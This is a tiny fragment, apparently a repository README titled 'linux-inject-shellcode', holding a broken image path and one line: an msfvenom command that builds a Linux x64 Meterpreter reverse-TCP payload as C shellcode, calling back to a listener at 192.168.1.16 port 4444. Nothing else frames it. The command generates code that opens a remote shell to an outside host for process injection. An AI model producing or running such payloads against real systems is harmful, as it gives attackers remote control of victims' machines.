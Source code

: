 # linux-inject-shellcode
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.16 LPORT=4444 -f c -o test.c
